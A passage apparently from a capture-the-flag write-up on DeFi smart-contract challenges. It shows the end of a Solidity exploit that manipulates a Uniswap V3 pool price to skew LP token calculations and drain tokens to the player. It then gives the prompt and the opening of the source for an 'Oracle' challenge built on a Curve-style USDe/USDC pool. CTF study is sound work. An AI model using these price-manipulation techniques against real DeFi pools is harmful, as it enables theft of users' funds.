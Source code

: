 ```solidity
            uint256 token1bal =  token1.balanceOf(address(this));
            token1.approve(address(pool), token1bal);
            pool.swap(player, false, int256(token1bal), MAX_SQRT_RATIO-1, "");
        }
        
        token0.transfer(player, token0.balanceOf(address(this)));
        token1.transfer(player, token1.balanceOf(address(this)));

    }
    function uniswapV3SwapCallback(
        int256 amount0Delta,
        int256 amount1Delta,
        bytes calldata data
    ) external  {
        require(msg.sender == address(pool));
        if (amount0Delta > 0) token0.transfer(msg.sender, uint256(amount0Delta));
        if (amount1Delta > 0) token1.transfer(msg.sender, uint256(amount1Delta));
    }
}
```
{%end%}

The exploit takes advantage of the fact that the Yield contract doesn't properly handle extreme price movements in the underlying Uniswap V3 pool, allowing us to manipulate the LP token calculations to our advantage.


# Oracle

P: "Michael wrote a Dex pool for USDe and USDC tokens along with their respective oracles. Then he borrowed a large position from his own pool trusting his own code. The pool is deployed with the same code and params as the actual pool at https://etherscan.io/tx/0x6f4438aa1785589e2170599053a0cdc740d8987746a4b5ad9614b6ab7bb4e550. You are given 10000 tokens of USDe and USDC. Your goal is to get 20000 of USDe.

Might help you: check the differences betweeen the current implementation and the implementation deployed at the pool creation time on mainnet"

{% note(clickable=true, header="Oracle.sol") %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-4.8.0/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin-contracts-4.8.0/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin-contracts-4.8.0/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin-contracts-4.8.0/contracts/access/Ownable.sol";
import "@openzeppelin-contracts-4.8.0/contracts/utils/math/Math.sol";

interface ICurve {
    function add_liquidity(
        uint256[] calldata amounts,
        uint256 min_mint_amount
    ) external returns (uint256);

    function remove_liquidity_imbalance(
        uint256[] calldata amounts,
        uint256 max_burn_amount
    ) external returns (uint256);

    function price_oracle(uint256 idx) external view returns (uint256);
    function last_price(uint256 idx) external view returns (uint256);
    function coins(uint256 idx) external view returns (address);
    function balanceOf(address owner) external view returns (uint256);
```